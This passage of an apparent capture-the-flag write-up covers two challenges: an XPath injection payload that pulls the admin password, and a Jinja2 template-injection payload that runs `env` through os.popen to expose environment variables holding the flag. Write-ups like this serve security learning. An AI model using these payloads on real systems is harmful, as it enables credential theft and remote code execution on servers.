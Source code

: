 
```xml
//user[name/text()="guest" and password/text()="$INPUT"]/name/text()
```

**Payload**: I hate XPATH it gives me headaches, here is the payload from ChatGPT. 

```ps1
"]|//user[name/text()="admin"]/password/text()|//user[name/text()="guest" and password/text()="
```

<center>
  <img src="/images/LeHACK2025/cost-gpt.png" alt="Description" />
  SPOILER ALERT: this shortcut cost me a lot.
</center>


### Jinja SSTI

**Context**: The flag is stored in the environment variable `FLAG`. There is no escaping applied to the user input, so you can inject Jinja2 expressions directly.

```py
from jinja2 import Environment
import os

template = os.environ.get("PAYLOAD", "")
env = Environment()
tmpl = env.from_string(template)
print(tmpl.render())
```

```py
Hello $INPUT
```

**Payload**: The check to validate the flag was a bit off, I discovered you could display every environment variables and it would be considered as a `SUCCESS` since the flag content was inside. The final payload was executing the `env` binary, thanks to Polidarius' research it is a very small payload: [Python vulnerabilities : Code execution in jinja templates - July 27, 2021](https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/).

```ps1
{{ lipsum.__globals__["os"].popen('env').read() }} 
```
